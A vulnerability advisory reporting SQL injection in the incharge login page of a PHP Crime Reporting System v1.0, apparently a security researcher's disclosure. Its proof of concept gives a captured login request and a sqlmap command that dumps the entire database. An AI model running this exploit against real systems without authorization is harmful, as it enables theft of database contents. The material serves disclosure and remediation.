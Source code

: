 # Crime Reporting System - SQL Injection (Incharge Login)

### Vendor Homepage:

> https://code-projects.org/

### Software Link:

> [Crime Reporting System](https://code-projects.org/crime-reporting-system-in-php-with-source-code/)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /Crime-Reporting-System/inchargelogin.php

> Two parameters `email` and `password` within incharge login are vulnerable to SQL Injection.


![email](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/1.1crs-inchargelogin-email-sqli.png)

![password](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/1.2crs-inchargelogin-password-sqli.png)

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Save the following request to `inchargelogin.txt`:

```
POST /Crime-Reporting-System/inchargelogin.php HTTP/1.1
Host: 172.16.8.56
Content-Length: 56
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.8.56
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.16.8.56/Crime-Reporting-System/inchargelogin.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

email=shah@anandapur&password=123&s=
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r inchargelogin.txt --level 5 --risk 3 --batch --dbms MYSQL --dump
```


## Recommendations

When using this Crime Reporting System, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
